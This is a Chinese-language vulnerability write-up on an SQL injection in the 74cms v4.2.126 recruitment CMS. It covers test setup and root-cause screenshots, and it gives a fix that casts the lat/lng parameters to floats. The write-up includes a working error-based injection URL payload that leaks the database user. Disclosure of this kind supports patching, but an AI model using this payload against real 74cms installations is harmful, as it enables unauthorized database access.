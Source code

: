 74cms v4.2.126-通杀sql注入
==========================

0x00 前言
=========

厂商：74cms下载地址：<http://www.74cms.com/download/index.html>

关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
======================

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为  <http://baidu.com> 即可

0x02 数据填充不然没得测试
=========================

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId26.png)

0x02.1注册商家账号方便测试
--------------------------

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了注册完成以后将此商家用户登录前台

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId28.png)

0x02.2注册普通账号方便测试
--------------------------

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId30.png)

0x03 sql漏洞演示
================

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId32.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId33.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

    Payload: 
    http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId34.png)

0x04 漏洞原理
=============

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId36.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId37.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId38.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId39.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId40.png)

16.png

说明我们的猜想是没有错的。

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId41.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId42.png)

所以最终我们符合条件的内容都会赋值为\$this-\>params

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId43.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId44.png)

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId45.png)

0x05 修复方法
=============

![](/Users/aresx/Documents/VulWiki/.resource/74cmsv4.2.126-通杀sql注入/media/rId47.png)

    $this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range";

强转为浮点型，防止注入

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
